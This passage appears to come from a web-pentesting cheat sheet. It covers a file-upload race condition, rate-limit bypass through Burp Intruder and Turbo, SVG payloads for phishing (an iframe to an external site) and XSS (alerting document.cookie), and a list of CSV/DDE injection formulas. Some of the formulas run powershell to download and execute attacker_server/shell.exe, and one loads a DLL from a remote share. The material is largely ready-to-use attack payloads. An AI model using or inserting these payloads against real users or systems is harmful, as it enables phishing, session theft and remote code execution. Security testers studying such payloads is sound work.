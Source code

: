 ## 5. via race condition
	https://www.youtube.com/watch?v=mt0BN5pYHXI 
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
	
# No Rate Limit
## 1. via brute force
	send request to intruder
## 2. via Race Condition
	Send request to turbo
	add "race.py" payload
	add "test: %s" header in header
	

# SVG Payload
## 1. Phising Attack

	<svg width="1500" height="1500"
	  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">

	  <foreignObject width="1500px" height="1500px">
		<iframe xmlns="http://www.w3.org/1999/xhtml" style="width: 1500px; height: 1500px;" src="https://numberless-holddown.000webhostapp.com/"/>
	  </foreignObject>
	</svg>

## 2. XSS	
	
	<?xml version="1.0" standalone="no"?>
	<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

	<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
	   <script type="text/javascript">
		  alert(document.cookie);
	   </script>
	</svg>
	
# CSV Injection Payload

	DDE ("cmd";"/C calc";"!A0")A0
	@SUM(1+9)*cmd|' /C calc'!A0
	=10+20+cmd|' /C calc'!A0
	=cmd|' /C notepad'!'A1'
	=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
	=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
	=@MSEXCEL|'\..\..\..\Windows\System32\cmd.exe /c calc.exe'!_xlbgnm.A1
	